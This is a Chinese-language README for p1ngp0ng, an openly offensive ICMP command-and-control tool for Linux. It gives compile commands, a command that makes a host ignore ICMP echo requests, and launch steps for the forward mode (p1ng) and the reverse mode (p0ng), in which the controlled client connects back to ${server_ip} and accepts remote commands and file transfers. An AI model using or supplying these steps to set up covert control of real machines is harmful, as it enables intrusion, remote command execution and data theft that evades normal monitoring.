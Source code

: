 # p1ngp0ng

Linux下的轻量级ICMP C2工具。

# 依赖

Linux环境与GCC套件。

# 功能：

p1ngp0ng提供两种工作场景，监听型（p1ng），内网反弹型（p0ng）。

**p1ng：**

p1ng，实现C2服务器正向连接被控端。目前实现了对客户端的命令控制与文件上传下载。明文传输，未加密。

**p0ng：**

p0ng，实现被控端反向连接C2服务器。目前实现了对客户端的命令控制与文件上传下载。明文传输，未加密。

# 编译

```shell
gcc p1ng.c -o p1ng
gcc p0ng.c -lpthread -o p0ng
```

# 使用

**p1ng：**

p1ng下主控端主动发起连接。

```shell
# step1 被动接收ICMP报文的设备上关闭对ICMP报文的自动响应。默认情况下该值为0。
client: echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all

# step2 启动客户端并等待连接。q是静音开关。
client: ./p1ng -C -q

# step3 启动p1ng C2服务器并主动连接客户端。
server: ./p1ng -S -c ${client_ip} -q
```

![main-panel](https://github.com/aplyc1a/p1ngp0ng/blob/master/logo.png)
![p1ng-simple-usage](https://github.com/aplyc1a/p1ngp0ng/blob/master/p1ng_usage.png)



**p0ng：**

p0ng下被控端主动发起连接。

```shell
# step1: 被动接收ICMP报文的设备上关闭对ICMP报文的自动响应。默认情况下该值为0。
server: echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all

# step2： 启动p0ng C2服务器。q是静音开关。
server: ./p0ng -S -q

# step3： 启动p0ng 客户端进行反连。
client: ./p0ng -C -s ${server_ip} -q
```

